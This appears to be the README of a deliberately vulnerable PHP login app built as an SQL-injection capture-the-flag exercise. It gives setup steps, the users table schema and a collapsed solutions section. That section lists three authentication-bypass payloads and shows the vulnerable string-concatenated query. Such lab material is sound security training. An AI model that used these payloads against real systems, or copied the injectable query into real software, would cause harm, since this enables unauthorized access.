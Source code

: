 # SQL Injection Authentication Bypass CTF Challenge

## Project Structure
```
challange_SQLI/
├── Dockerfile
├── docker-compose.yml
├── init.sql
├── index.php
├── login.php
├── dashboard.php
├── logout.php
└── README.md
```

## Quick Start

1. Clone this repository:
```bash
git clone [repository-url]
cd challange_SQLI
```

2. Start the containers:
```bash
docker-compose up --build
```

3. Access the challenge:
- Open your web browser
- Navigate to `http://localhost:8000`

## Challenge Details

### Objective
Your goal is to bypass the authentication system and gain access to the admin account to retrieve the flag.

### Default Credentials (Don't use these!)
- Username: test
- Password: test

### Database Structure
```sql
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(50) NOT NULL,
    flag VARCHAR(100)
);
```

## Solutions

<details>
<summary>Click to reveal solutions (Try solving it first!)</summary>

There are multiple ways to solve this challenge:

1. Basic SQL Injection:
   ```sql
   Username: admin' OR '1'='1' --
   Password: anything
   ```

2. Simpler version:
   ```sql
   Username: admin' --
   Password: anything
   ```

3. Alternative method:
   ```sql
   Username: admin' or '1'='1
   Password: anything
   ```

The vulnerable query:
```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```
</details>

